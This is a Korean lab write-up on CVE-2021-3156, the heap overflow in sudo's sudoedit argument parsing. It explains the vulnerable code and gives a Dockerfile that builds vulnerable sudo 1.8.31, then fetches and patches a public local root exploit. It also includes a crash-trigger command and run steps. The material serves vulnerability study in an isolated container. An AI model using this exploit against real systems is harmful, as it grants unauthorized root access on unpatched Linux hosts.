

# CVE-2021-3156
| 화이트햇스쿨 3기 35반 김동욱(7031)

https://github.com/Gayang2902/kr-vulhub/tree/main/sudo/CVE-2021-3156

----
### 요약
**CVE-2021-3156**
CVE-2021-3156은 sudo 명령어의 특정 함수에서 발생하는 힙 버퍼 오버플로우 관련 취약점입니다.

이 취약점은 사용자 입력의 이스케이프(`\`)를 처리하는 과정에서 버퍼 오버플로우가 발생하여 트리거됩니다. 
크게 Privilege Escalation(권한 상승), Arbitary Code Execution(임의 코드 실행)으로 이어질 수 있습니다.

2021년 1월 경 Qualys의 연구팀에 의해 발견되었으며 2011년 7월 이후의 대부분의 리눅스 배포판에 영향을 미칩니다. 

본 보고서에서도 이에 영향을 받는 베이스 이미지인 Ubuntu 20.04 버전의 이미지를 사용하였습니다.

**CVE 등록 정보**
- CVSS: 7.8(높음)   
- 공격 벡터: 로컬
- 공격 복잡성: 낮음
- 필요 권한: 낮음

**발생하는 이유**

`sudo`와 함께 사용되는 `sudoedit` 명령어에서 사용자 입력 파싱 로직을 실행하는 함수인 `set_cmnd()`에서 힙 버퍼 오버플로우가 발생합니다.
아래는 해당 취약점이 발생하는 코드입니다.
```c
for (size = 0, av = NewArgv + 1; *av; av++)
size += strlen(*av) + 1;
if (size == 0 || (user_args = malloc(size)) == NULL) {
    ...
}
...
    *to++ = *from++;
```
- 인자 값 복사 이전에 `size` 변수가 확정되어 힙 버퍼 오버플로우에 취약
- 사용자 입력(argv)을 `to` 변수에 이스케이프 처리하여 복사하지만 `\\`와 같은 입력이 들어오면 `to`와 `from`의 길이가 맞지 않게 됨 -> 계속된 복사 작업으로 인한 잘못된 메모리 접근이 발생함
  
이로 인해 공격자는 힙 공간에 악의적인 값을 삽입하는 것이 가능해집니다.
****
### 환경 구성
CVE-2021-3156은 아직 vulhub에 올라와있지 않은 것으로 확인하였습니다.
따라서 아래와 같이 `dockerfile`을 구성하였습니다.
- 취약한 베이스 이미지인 `ubuntu:20.04`를 사용
- 공개된 github PoC 코드 사용
  - https://github.com/CyberCommands/CVE-2021-3156.git
  - 컨테이너 내의 환경과 일부 맞지 않는 부분이 있어 수정함
- sudo 저장소에서 취약한 버전의 sudo를 다운로드받아 이미지 내에서 빌드
```Dockerfile
# CVE-2021-3156

# 베이스 이미지 설정
FROM ubuntu:20.04
ARG DEBIAN_FRONTEND=nointeractive

# 필요한 패키지 설치
RUN apt-get update -y
RUN apt-get install -y build-essential \
                       make wget whois \
                       gdb git python3-pip \
                       libssl-dev libffi-dev \
                       python3-dev sudo

# 취약한 sudo 빌드 및 설치
WORKDIR /root
RUN wget https://www.sudo.ws/dist/sudo-1.8.31.tar.gz
RUN tar -xf sudo-1.8.31.tar.gz && \
    cd sudo-1.8.31/ && \
    mkdir build && cd build && \
    ../configure --enable-env-debug && \
    make -j && make install

# 테스트 유저 생성 및 설정
RUN useradd -ms /bin/bash Gayang2902
WORKDIR /home/Gayang2902
COPY ./vuln_check /home/Gayang2902/vuln_check

# 공개된 PoC clone 및 컨테이너 환경에 맞게 일부 수정하여 빌드
## 1. argv 변수 수정
## 2. sudoedit 경로 수정
RUN git clone https://github.com/CyberCommands/CVE-2021-3156.git && \
    cd CVE-2021-3156 && \
    sed -i 's|char\* argv\[\] = {[^}]*}|char* argv[] = { "sudoedit", "-s", "AAAAA", NULL };|' exploit.c && \
    sed -i 's|/usr/bin/sudoedit|/usr/local/bin/sudoedit|g' exploit.c && \
    make && \
    ln -s /home/Gayang2902/CVE-2021-3156/exploit /home/Gayang2902/exploit

USER Gayang2902

CMD [ "bash" ]

```
**이미지 빌드**
```bash
docker build -t <image:tag> .
```

**취약한 환경이 구성되었는지 확인**
```bash
$ docker run --rm <image:tag> ./vuln_check
# 아래와 같이 출력되면 취약한 환경이 잘 구성된 것
./vuln_check: line 2:     8 Segmentation fault      sudoedit -s '\' `perl -e 'print "A" x 10000'`
```
### 실행
```bash
$ docker run --rm --it <image:tag>
$ cd CVE-2021-3156 && ./exploit
```
### 익스플로잇 시연
1. **이미지 빌드**

2. **취약한 버전으로 빌드되었는지 확인**

3. **PoC 시연**

### 정리
위의 과정으로 빌드를 완료하고 PoC를 실행시키면 취약점을 이용하여 sudo 그룹에 속해있거나 sudoers에 등록되어 있지 않은 일반 사용자에서 root 계정으로 권한 상승이 되는 것을 확인할 수 있습니다.